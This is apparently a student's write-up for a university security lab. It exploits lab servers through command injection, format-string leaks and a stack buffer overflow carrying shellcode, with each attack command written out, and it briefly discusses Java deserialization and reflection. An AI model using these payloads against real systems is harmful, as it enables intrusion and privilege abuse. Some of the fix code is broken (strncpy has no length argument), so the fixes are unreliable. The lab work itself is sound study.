




FIT5003 Assignment 1 - BOF, FSV, and Android & Java Security
Assignment Requirements
You can find it in: https://github.com/RdWeirdo981/Master-of-Cybersecurity
Task1.1 Program version: 1
a) Vulnerability
By copying the code in listing-1 into a c file and using RAT provided in week 7 lab, I find that in these lines there are vulnerabilities:
| Line | Vulnerability |
|---|---|
char command[300]; char buf[1500]; |
fixed size local buffer. |
sprintf(command, "/usr/bin/nslookup %s", buf); |
Format string vulnerability |
system(command); |
Command injection |
However, we must analyze these vulnerabilities to see if they can be used to attack. I originally generate a BOF and a FSV attack to the host server, but the stack crashing is detected, then server terminates. So, I have to try the last one: command injection. Thankfully, the input is directly called by the system. Thus, I can use the 2nd argument to execute my command.
b) Exploit
Problem version 3: change the privilege level to read, write and execute for all files in the folder
Command injection:
1 | echo "hackthebox.com; chmod a=rwx ~/hidden" | nc 10.0.2.14 7070 |
Result:

c) Fixing the vulnerability
Reference:
https://owasp.org/www-community/attacks/Command_Injection
http://www.cplusplus.com/reference/cstring/strchr/
Since we use “;” to be the header of the 2nd command thus to attack, we can counter this attack by a validation check. We’ll use strchr() to check if there’s another command that is sent to the server.
We shall change the sprintf() to system(command) as below:
1 | 1. sprintf(command, "/usr/bin/nslookup %s", buf); |
Task1.2 Server ver3 & port 6063
a) Reverse shell
Vulnerability:
i) Format string vulnerability in myprintf();
ii) BOF in char password_buffer[BUF_SIZE]; strcpy(password_buffer, password);
Step 1
Echo to server will call check_authentication(char * username, char * password), username will accept myprintf(). We use FSV in myprintf().
This requires lots of attempts, but finally we got:
1 | echo $(perl -e 'print "%.8x."x7, "%s"') pw123 | nc 10.0.2.14 6063 |

1 | echo $(perl -e 'print "%.8x."x8, "%s"') pw123 | nc 10.0.2.14 6063 |

The password_buffer address is at 8th position.
We do not need 0xbfffc80 because this address will change when we change password.
Step 2
Use BOF in strcpy();
1 | echo 123 $(perl -e 'print "A"x119') | nc 10.0.2.14 6063 |
Compare these two. If 119 change to 120, the check_authentication() will crash and not respond. So, the buffer size then is 119.
Step 3
BOF the shellcode
1 | echo $(perl -e 'print "%.8x."x8') $(perl -e 'print "A"x119')| nc 10.0.2.14 6063 |
The last buffer address is 0xbfffc10. We now can use this to do BOF attack.
Ref: What’s a reverse shell https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/
Although the tutor said on Ed discussion that we should not use reverse shell in our tutorial, I found that the shellcode does useful. So, I use it to obtain the reverse shell.
1 | echo $(perl -e 'print "%.8x."x8') $(perl -e 'print "\x90"x40,"\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80\x90","\x19\xfc\xff\xbf"x15')| nc 10.0.2.14 6063 |

b) Getting the file
Ref: https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html
1 | echo "$(perl -e 'print "AAAA","%.8x."x170,"%s"') 123456" |nc 10.0.2.14 6063 |
The 1st one will return the password and the 2nd one will return authenticate3.
But I don’t know what’s the next.
c) Fixing the vulnerability
i) Format string vulnerability
1 | 1. void myprintf(char * msg) { |
ii) BOF
1 | 1. strncpy(password_buffer, password); |
Task 2.1
I started this assignment too late and I have no experience with android program & few experience with JAVA before, so I only work out a little part of it. The material in week 4 & 5 lecture and week 5 & 6 tutorial lab are useful, but I do not have enough time to implement them.
Here the only functionality that I add to the project:
1 | //generates hash (uses SHA256) |
Task 2.2
Ref:
Week4 lecture
[https://owasp.org/www-community/vulnerabilities/Unsafe_use_of_Reflection#:~:text=Description%20This%20vulnerability%20is%20caused%20by%20unsafe%20use,result%20in%20a%20limited%20form%20of%20code%20injection](https://owasp.org/www-community/vulnerabilities/Unsafe_use_of_Reflection#:~:text=Description This vulnerability is caused by unsafe use,result in a limited form of code injection). Unsafe use of Reflection
https://owasp.org/www-pdf-archive/GOD16-Deserialization.pdf Java Deserialization A0acks
1) Java Deserialization
If we use ObjectInputStream.readObject(); there might have a JAVA deserialization problem. When we use the malicious data to be the input, the attack may happen.
2) Java Reflection
We can’t use Class newClass = new Class(), so we have to use .getClass();. This is an example of Java Reflection. We can use Java Reflection to get metadata, which means that this can also be used by the attackers. We call the setClass(input) and give it a malicious input so the attack will happen.
To defend it, we can use restrict permissions in security policy.